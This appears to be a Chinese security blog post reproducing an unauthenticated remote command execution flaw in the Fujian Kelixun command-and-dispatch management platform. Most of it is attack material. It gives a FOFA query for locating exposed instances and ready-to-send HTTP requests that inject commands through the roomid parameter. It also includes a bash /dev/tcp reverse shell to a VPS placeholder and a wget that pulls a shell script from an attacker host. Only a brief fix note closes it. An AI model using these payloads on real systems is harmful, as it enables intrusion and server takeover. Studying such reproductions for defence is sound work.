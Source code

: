 
# 福建科立讯通信 指挥调度管理平台RCE漏洞复现

### 0x01 产品简介

   福建科立讯通信指挥调度管理平台是一个专门针对通信行业的管理平台。该产品旨在提供[高效的](https://so.csdn.net/so/search?q=%E9%AB%98%E6%95%88%E7%9A%84&spm=1001.2101.3001.7020)指挥调度和管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务，并即时获取现场反馈和报告。

### 0x02 漏洞概述

  福建科立讯通信有限公司指挥调度管理平台invite\_one\_member.php接口处存在远程命令执行漏洞，未经身份认证的攻击者可通给该漏洞远程执行命令，写入后门文件可导致服务器失陷。

### 0x03 复现环境

FOFA：body="指挥调度管理平台"

![](assets/1699929197-c03af0f205916a9297e4111006f1b25c.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`id>1.txt` HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

PS：漏洞没有回显，可将命令结果写到txt里面或者dnslog平台验证 

![](assets/1699929197-973de5ad138df7e9e90f6122fb3ad353.png)

![](assets/1699929197-88a85a7ba219abd5e113309a0328fe0f.png)

**反弹Shell**

```typescript
!/bin/sh
bash -c 'exec bash -i >& /dev/tcp/VPSip/6666 0>&1'
```

```cobol
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`wget+http://vpsip/1.sh+-O+/tmp/shell.sh` HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![](assets/1699929197-616a0c393ceebd90adf4a606172a4fa1.png)

### ![](assets/1699929197-9bded5793f6e5fdcbd0be4aa5cab1cf1.png) 0x05 修复建议

 关闭互联网暴露面或接口处设置访问权限

 升级至安全版本
